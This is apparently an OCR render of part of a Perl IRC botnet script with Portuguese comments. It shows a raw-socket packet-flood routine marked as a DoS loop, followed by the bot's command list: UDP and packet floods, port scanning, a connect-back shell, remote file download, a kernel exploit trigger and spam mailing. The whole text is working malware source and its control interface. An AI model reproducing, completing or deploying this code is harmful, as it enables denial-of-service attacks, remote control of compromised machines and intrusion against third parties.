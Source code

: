                # DoS ?? :P
               for (my $pc = 3; $pc <= 255;$pc++) {
                 next if $pc == 6;
                 $cur_time = time - $itime;
                 last if $cur_time >= $ftime;
                 socket(SOCK5, PF_INET, SOCK_RAW, $pc) or next;
                 send(SOCK5, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{o}++ if ($pacotes == 1);
               }
             }
             last if $cur_time >= $ftime;
          }
          return($cur_time, %pacotes);
        }

Commands:

        # Comandos:
        #           @oldpack <ip> <bytes> <tempo>;
        #           @udp <ip> <porta> <tempo>;
        #           @fullportscan <ip> <porta inicial> <porta final>;
        #           @conback <ip> <porta>
        #           @download <url> <arquivo a ser salvo>;
        #           !estatisticas <on/off>;
        #           !sair para finalizar o bot;
        #           !novonick para trocar o nick do bot por um novo aleatorio;
        #           !entra <canal> <tempo>
        #           !sai <canal> <tempo>;
        #           !pacotes <on/off>
        #           @info
        #           @xpl <kernel>
        #           @sendmail <assunto> <remetente> <destinatario> <conteudo>
